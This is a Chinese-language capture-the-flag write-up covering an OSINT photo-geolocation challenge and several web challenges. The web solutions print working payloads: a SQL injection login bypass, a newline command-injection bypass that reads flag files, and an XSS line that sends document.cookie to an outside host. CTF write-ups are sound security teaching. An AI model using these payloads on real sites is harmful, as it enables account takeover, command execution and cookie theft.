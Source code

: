 ### M0unta1n
我一開始看到這張照片就猜測它在台灣嘉義到高雄附近，而且應該是下午 2 點左右，方向是向西。然後我發現有鳳梨田和遠處的小山脈，後來提示說是在高雄，所以就從高雄開始找。
![](https://hackmd.io/_uploads/rkbHMouGyg.png)

從地形上看，鼓山區有一座山，拍攝者面向西邊，所以推測位置大約在鳥松區東邊的山上。
![](https://hackmd.io/_uploads/Skp-Xo_Mke.jpg)

在 Google Earth 中查看 3D 地圖，可以發現照片中偏左的位置有兩個像廟的屋頂，一個藍色一個橘色，所以我推測是在箭頭所指的位置。

用街景確認後，將上方的「松浦北巷」丟到郵局翻譯成英文，答案就出來了。
```
NHNC{Songpu N. Ln.}
```

# Web

### 哥布林保衞部公告
使用 `view-source` 查看原始碼就可以看到 flag。

### I need to get the C00kies
把 cookie 改成 admin 就能拿到 flag。

### Login
輸入 `'or 1=1--` 就能得到 flag。

### EASY METHOD
題目提示我們要使用 `PUT`：
```
curl -X PUT http://23.146.248.227:60001/
```

### 1 line php
題目用 `#` 把後面所有內容註解掉，可以用換行符（%0A）bypass：
```
?cmd=%0Acat /f*
```

### Democracy
按 F12 查看 network，會看到它轉到 next 再轉到 next.html。
用 curl 查 next.html 什麼都沒有。
next 會跑出兩段 JavaScript，第二段是 cloudflare，推測和題目無關，第一段有 console log。
所以回到網站，把 console 打開，按下按鈕後又被重新導向，但 flag 就顯示在 console 裡。

### miday
這是一個 XSS 題。
一開始的 payload 是：
```
'http://example.com?'+document.cookie
```
試了很多次後，我改成：
```
`http://example.com?${document.cookie}`
```
就成功了。
